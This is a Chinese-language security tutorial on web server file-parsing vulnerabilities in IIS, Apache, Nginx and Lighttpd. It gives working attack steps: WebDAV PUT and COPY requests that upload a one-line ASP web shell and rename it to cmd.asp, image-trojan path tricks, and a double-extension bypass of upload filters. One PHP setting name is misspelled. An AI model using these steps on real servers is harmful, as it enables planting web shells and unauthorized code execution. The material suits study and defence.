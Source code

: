 # Web Server 解析漏洞

## IIS
### IIS 6.0 解析漏洞

- 若建立一个后缀名为*.asa, *.asp的文件夹时，其目录下的任意文件均被IIS 6.0 server视为asp文件进行解析。

例如：创建一个名为a.asp的目录，其中有文本文件123.txt，文本内容为`<%=NOW()%>`，IIS解析时会将其作为asp函数执行，返回当前时间。

- WebDav服务漏洞。开启该服务后会扩展http协议，如果选择支持PUT, Move, Copy, Delete等HTTP方法，就会引入安全漏洞，攻击者可以通过PUT方法向server上传危险脚本。

例如：

先通过OPTIONS 方法探测服务器支持的http方法：
```http
OPTIONS / HTTP/1.1
Host: www.secbug.org
```

响应如下：
```
HTTP/1.1 200 OK
Cache-control:private
Date: Mon, 19 Aug 2013 09:41:45 GMT
Allow: OPTIONS, TRACE, GET,HEAD,DELETE,COPY,MOVE,PROPFIND,PROPPATCH,SEARH,...
...
```
然后，通过PUT方法向服务器上传脚本
```
PUT \1.TXT HTTP/1.1
HOST:WWW.SEEBUG.ORG

<%eval request("chopper")%>
```

然后通过COPY 或 MOVE方法改名
```
COPY /1.txt HTTP/1.1
HOST:www.seebug.org
Destination:http://www.secbug.org/cmd.asp
```

这样就获取了一个webshell cmd.asp

安全前辈桂林老兵、zwell都写过针对WebDaV漏洞的工具（IIS Write、IIS PUT/scanner。



### IIS 7.0 7.5 
例如：访问 `http://www.xxser.com/1.jpg/1.asp` 此时1.jpg会被当做 asp脚本执行。这其中 1.asp并不存在，但仍可以执行 asp 脚本。原因是 1.jpg中包含了恶意脚本（图片马），然后在url中输入 xx.asp即可执行。

## Apache 解析漏洞

### Apache 1.x 2.x 解析漏洞

上述版本的Apache，在解析未知扩展名的文档时，会从后向前解析，直到遇到已知的扩展名，并按其加载解析方法；如果没有已知的扩展名，则报错，暴露源代码。

Apache中已知的扩展名，被设置在 `/conf/mime.types`文件中。

在这两类版本中，如果有一个1.php.rar文件，内容为:

```php
<?php
    phpinfo();
?>
```

通过http访问该文件时，将显示phpinfo()函数执行结果，而不是下载rar文件提升框。


一些开发者使用规则匹配 .php , .asp , .jsp , .aspx ,.asa , .cer 等后缀名方法，过滤掉不应接受的脚本，但若apache有上述解析漏洞，攻击者构造 1.php.any_char 就可绕过检查。

## Nginx 解析漏洞

例如：访问 `http://www.xxser.com/1.jpg/1.php` 此时1.jpg会被当做 php脚本执行。这其中 1.php并不存在，但仍可以执行 php 脚本。原因是 1.jpg中包含了恶意脚本（图片马），然后在url中输入 xx.php即可执行。

这个漏洞实际为 PHP CGI 漏洞：
- 在PHP的配置文件中有一个关键的选项：`cgi.fi: x_pathinfo` 。这个选项在某些版本中是默认开启的，在开启时访问如上述`http://www.xxser.com/1.jpg/1.php` 类似的URL，PHP将会向前递归解析，于是造成了解析漏洞。

## Lighttpd 解析漏洞

例如：访问 `http://www.xxser.com/1.jpg/1.php` 此时1.jpg会被当做 php脚本执行。这其中 1.php并不存在，但仍可以执行 php 脚本。原因是 1.jpg中包含了恶意脚本（图片马），然后在url中输入 xx.php即可执行。
